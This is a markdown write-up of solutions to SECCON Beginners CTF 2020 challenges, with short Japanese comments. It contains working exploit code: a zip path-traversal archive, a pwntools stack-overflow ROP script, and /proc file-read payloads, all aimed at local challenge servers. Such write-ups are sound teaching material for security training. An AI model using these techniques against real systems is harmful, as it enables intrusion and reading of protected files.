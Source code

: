 # SECCON Beginners CTF 2020

- https://github.com/SECCON/Beginners_CTF_2020

## web

### unzip

- https://www.youtube.com/watch?v=Lpeh8yN7NAg&t=7590s

#### Solution 1

```zsh
echo hello > __X__Xflag.txt
7z a 1.zip __X__Xflag.txt
hexer 1.zip
```

hexer で編集する。
`__X__Xflag.txt` が2か所あるので、`../../flag.txt` に書き換える。

## rev

### mask

IDA または Ghidra で逆コンパイル

```c
local_98[local_e0] = local_d8[local_e0] & 0x75;
local_58[local_e0] = local_d8[local_e0] & 0xeb;

"atd4`qdedtUpetepqeUdaaeUeaqau"
"c`b bk`kj`KbababcaKbacaKiacki"
```

#### Solution 1

- https://gchq.github.io/CyberChef/#recipe=OR(%7B'option':'UTF8','string':'c%60b%20bk%60kj%60KbababcaKbacaKiacki'%7D)&input=YXRkNGBxZGVkdFVwZXRlcHFlVWRhYWVVZWFxYXU

#### Solution 2

```python
#!/usr/bin/env python3
a = bytes(b'atd4`qdedtUpetepqeUdaaeUeaqau')
b = bytes(b'c`b bk`kj`KbababcaKbacaKiacki')
print(bytes([x | y for x, y in zip(a, b)]).decode())
```

#### Solution 3

```python
#!/usr/bin/env python3
a = b'atd4`qdedtUpetepqeUdaaeUeaqau'
b = b'c`b bk`kj`KbababcaKbacaKiacki'
answer = ''
for i in range(len(a)):
    for c in range(0x20, 0x7f):
        if c & 0x75 == a[i] and c & 0xeb == b[i]:
            answer += chr(c)
            print(answer)
            break
```

#### solution 4

```python
#!/usr/bin/env python3
import angr
import claripy
proj = angr.Project('./mask', auto_load_libs=False)
max_len = 64
prefix = b'ctf4b{'
arg1 = claripy.BVS('arg1', 8*max_len)
state = proj.factory.entry_state(args=[proj.filename, arg1])
for c in arg1.chop(8):
    state.solver.add(claripy.Or(claripy.And(c >= 0x20, c <= 0x7e), c == 0))
for i, ch in enumerate(prefix):
    state.solver.add(arg1.get_byte(i) == ch)
simgr = proj.factory.simgr(state)
simgr.explore(find=lambda s: b'Correct' in s.posix.dumps(1),
              avoid=lambda s: b'Wrong' in s.posix.dumps(1))
print(simgr)
if simgr.found:
    found = simgr.found[0]
    flag = found.solver.eval(arg1, cast_to=bytes)
    print('FLAG:', flag.split(b'\x00')[0].decode())
else:
    print('No solution found')
```

## pwn

### beginners_stack

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import ELF, ROP, context, p64, process, log, remote
exe = context.binary = ELF('chall')
# io = process([exe.path])
io = remote('::1', 9001)
rop = ROP(exe)
rop.raw(rop.ret)
io.sendafter(b'Input: ', b'A'*0x20 + b'B'*0x8 + rop.chain()
             + p64(exe.symbols['win']))
io.sendlineafter(b'Congratulations!\n', b'cat flag.txt')
log.success(io.recvall(2).decode())
io.close()
```

## misc

### readme

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import log, remote
import re
io = remote('::1', 9712)
io.sendlineafter(b'File: ', b'/proc/self/environ')
log.success('CWD: %s', re.findall(
    b'PWD=(.+?)\x00', io.recvline())[0].decode(errors='ignore'))
io.close()
io = remote('::1', 9712)
io.sendlineafter(b'File: ', b'/proc/self/cwd/../flag')
log.success('FLAG: %s', io.recvline().decode(errors='ginore'))
io.close()
```

### emoemoencode

#### Solution 1

```python
#!/usr/bin/env python3
chars = [ord(ch) for ch in open('problem.txt').read()]
d = chars[0] - ord(b'c')
for ch in chars[:-1]:
    print(chr(ch - d), end='')
```
